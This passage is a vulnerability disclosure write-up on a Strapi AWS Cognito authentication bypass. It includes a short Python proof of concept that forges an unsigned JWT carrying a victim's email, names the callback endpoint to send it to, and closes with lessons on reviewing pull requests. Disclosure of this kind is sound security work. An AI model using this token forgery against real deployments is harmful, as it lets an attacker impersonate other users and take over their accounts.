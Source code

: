 
## How to Exploit Strapi AWS Cognito Authentication Bypass Vulnerability

Bypassing the AWS Cognito authentication for Strapi was **extremely easy**, since the OAuth ID token was **never verified**. So all you have to do is create a JWT token (does not matter what secret or signing algorithm you use) and set the email claim to be the same as your victim.

*That's it...*

You can use the following proof of concept (POC) for generating the JWT.

```python
import jwt

EMAIL_TO_IMPERSONATE="ghostccamm@testvm.local"

payload = {
        "cognito:username": "auth-bypass-example",
        "email": EMAIL_TO_IMPERSONATE
}

jwt_token = jwt.encode(payload, None, algorithm=None)
print(f"JWT Token: {jwt_token}")
```

Then just send that token to `/api/auth/cognito/callback?access_token=something&id_token=<JWT PAYLOAD>`.

![](./images/demo.png)

---

## A Lesson for Open-Source Project Maintainers

You might be wondering *how did this code get added to Strapi*? It was pointed out to me during my disclosure to Strapi that the vulnerable code was added by an external community member in a pull request. I won't be referencing the pull request, because I do not want to start a witch hunt. Instead, I want to focus on the importance of reviewing pull requests, especially from external developers adding features to high risk functions within the application.

Coming from a security and development background, I immediately noticed the security vulnerability just from reading the source code. However, the Strapi engineers that reviewed the pull request were focused on asking the community developer to fix the merge conflicts. Their attention was diverted away from verifying if the pull request had secure code and consequently they missed the authentication bypass vulnerability that was introduced into Strapi version 3.2.1.
